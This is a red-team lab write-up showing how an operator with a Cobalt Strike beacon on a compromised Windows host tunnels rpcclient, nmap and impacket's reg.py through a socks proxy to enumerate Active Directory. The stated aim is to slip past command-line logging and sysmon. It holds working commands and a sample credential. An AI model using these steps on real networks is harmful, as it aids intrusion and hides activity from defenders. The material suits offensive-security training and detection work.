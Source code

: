 # Enumerating Windows Domains with rpcclient through SocksProxy == Bypassing Command Line Logging

This lab shows how it is possible to bypass commandline argument logging when enumerating Windows environments, using Cobalt Strike and its socks proxy (or any other post exploitation tool that supports socks proxying).&#x20;

In other words - it's possible to enumerate AD (or create/delete AD users, etc.) without the likes of:

* net user
* net user \<bla> /domain
* net user \<bla> \<bla> /add /domain
* net localgroup
* net groups /domain
* and similar commands

...which most likely are monitored by the blue team.

## Assumption

In this lab, it is assumed that the attacker/operator has gained:

* code execution on a target system and the beacon is calling back to the team server
* valid set of domain credentials for any `authenticated user`

## Lab Environment

| IP       | What's behind                                                  |
| -------- | -------------------------------------------------------------- |
| 10.0.0.5 | attacker with kali and `rpcclient`                             |
| 10.0.0.2 | compromised Windows system `WS01`                              |
| 10.0.0.6 | Windows DC `DC01` to be interrogated by 10.0.0.5 via 10.0.0.2  |
| 10.0.0.7 | Windows box `WS02` to be interrogated by 10.0.0.5 via 10.0.0.2 |

## Execution

The below shows a couple of things. First one - two Cobalt Strike sessions:

* PID 4112 - original beacon
* PID 260 - beacon injected into dllhost process

Second - attacker opens a socks4 proxy on port 7777 on his local kali machine (10.0.0.5) by issuing:

{% code title="attacker@cobaltstrike" %}
```
socks 7777
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-02-05-00-08-58.png)

This means that the attacker can now use proxychains to proxy traffic from their kali box through the beacon to the target (attacker ---> beacon ---> end target).

Let's see how this works by firstly updating the proxychains config file:

{% code title="attacker@kali" %}
```
nano /etc/proxychains.conf
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-02-04-23-20-21.png)

### Enumeration

Once proxychains are configured, the attacker can start enumerating the AD environment through the beacon like so:

{% code title="attacker@kali" %}
```
proxychains rpcclient 10.0.0.6 -U spotless
enumdomusers
```
{% endcode %}

![Victim (10.0.0.2) is enumerating DC (10.0.0.6) on behalf of attacker (10.0.0.5)](../../.gitbook/assets/screenshot-from-2019-02-05-20-22-43.png)

Moving on, same way, they can query info about specific AD users:

{% code title="attacker@kali" %}
```
queryuser spotless
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-02-04-23-34-33.png)

Enumerate current user's privileges and many more (consult rpcclient for all available commands):

{% code title="attacker@kali" %}
```
enumprivs
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-02-04 23-34-42.png>)

Finally, of course they can run nmap if needed:

{% code title="attacker@kali" %}
```csharp
proxychains nmap 10.0.0.6 -T4 -p 21,22,23,53,80,443,25 -sT
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-02-04-23-36-48.png)

### Impacket

Impacket provides even more tools to enumerate remote systems through compromised boxes. See the below example gif.&#x20;

This is what happens - attacker (10.0.0.5) uses proxychains with impacket's reg utility to retrieve the hostname of the box at 10.0.0.7 (WS02) via the compromised (CS beacon) box 10.0.0.2 (WS01):

{% code title="attacker@kali" %}
```csharp
proxychains reg.py offense/administrator:123456@10.0.0.2 -target-ip 10.0.0.7 query -keyName hklm\system\currentcontrolset\control\computername\computername
```
{% endcode %}

The below shows traffic captures that illustrate that the box 10.0.0.2 enumerates 10.0.0.7 using SMB traffic only:

![](../../.gitbook/assets/peek-2019-02-09-19-50.gif)

Below further proves that the box 10.0.0.2 (WS01 which acted as proxy) did not generate any sysmon logs and the target box 10.0.0.7 (WS02) logged a couple of events, that most likely would not attract much attention from the blue teams:

![](../../.gitbook/assets/screenshot-from-2019-02-09-19-59-58.png)

## Observations

Note how only the SMB traffic between the compromised system and the DC is generated, but no new processes are spawned by the infected `dllhost` process:

![](../../.gitbook/assets/peek-2019-02-05-20-24.gif)

![](../../.gitbook/assets/screenshot-from-2019-02-04-23-18-20.png)

## References

{% embed url="https://www.samba.org/samba/docs/current/man-html/rpcclient.1.html" %}

{% embed url="https://github.com/SecureAuthCorp/impacket/tree/master/examples" %}

{% embed url="https://www.cobaltstrike.com/help-socks-proxy-pivoting" %}

{% embed url="https://www.youtube.com/watch?v=l8nkXCOYQC4&index=19&list=WL&t=7s" %}

